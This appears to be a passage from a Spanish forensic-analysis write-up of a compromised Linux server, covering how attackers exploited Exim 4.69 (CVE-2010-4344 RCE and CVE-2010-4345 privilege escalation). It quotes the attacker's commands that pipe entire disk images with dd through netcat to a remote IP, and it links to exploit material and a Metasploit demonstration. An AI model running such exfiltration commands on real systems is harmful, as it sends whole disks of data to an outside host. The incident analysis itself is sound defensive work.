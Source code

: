 ```bash
mount
sudo dd if=/dev/sda | nc 192.168.56.1 4444
dd if=/dev/sda | nc 192.168.56.1 4444
dd if=/dev/sda1 | nc 192.168.56.1 4444
```

###### 12- Recuperando los datos transferidos.
<li>El atacante instala 2 herramientas forenses para recuperar datos de esas particiones que se hayan podido volver corruptos.</li>

```bash
apt-get install ddrescue
apt-get install dcfldd
```
<br>
<a name="appmaliciosa"></a>
<h2>4- Analizando aplicacion maliciosa</h2>

Ya hemos visto que la aplicacion maliciosa es exim, un servicio de transferencia de correo.

La version 4.69 de Exim contiene una vulnerabilidad critica.

Descubierta en 2011, fue una de las principales causas de botnets de ese momento.

Al enviar un mensaje especialmente diseñado, un atacante puede corromper el heap y ejecutar código arbitrario con los privilegios del usuario Exim (CVE-2010-4344) causando el buffer overflow (desbordamiento de la memoria).


<li>También se utilizó una vulnerabilidad adicional, (CVE-2010-4345), este fue el ataque que condujo al descubrimiento de que habia un intruso en el sistema.</li>

<li>Este error permite que un usuario local obtenga privilegios de root desde la cuenta de Exim (cuenta que corre el servicio de correos). </li>

<li>Si el intérprete de Perl se encuentra en el sistema remoto la explotacion se realizará, este módulo también explotará automáticamente el error secundario para obtener el root.</li>

Por eso este fallo del sistema fue tan grave, juntando asi un RCE y un LPE causando tal desastre. 
<br><br>
<b> - RCE: CVE-2010-4344</b><br>
<b> - LPE: CVE-2010-4345</b> 

<b>Exploits y mas info: <a href="https://eromang.zataz.com/2010/12/20/exim-4-69-remote-code-execution/" target="_blank">EXIM 4.69 RCE</a></b>

<b>Dejo un video de como se explota este fallo de seguridad, usando un modulo de metasploit:
<a href="https://www.youtube.com/watch?v=DnSgOGIxjaQ" target="_blank">https://www.youtube.com/watch?v=DnSgOGIxjaQ</a></b>
<br>
<a name="logscorruptos"></a>
<h2>5- Logs corruptos</h2>
Una vez conocemos como ha ocurrido todo esto observamos los logs, que fue la principal fuente de explotacion.

```bash
ls var/log/exim4
```
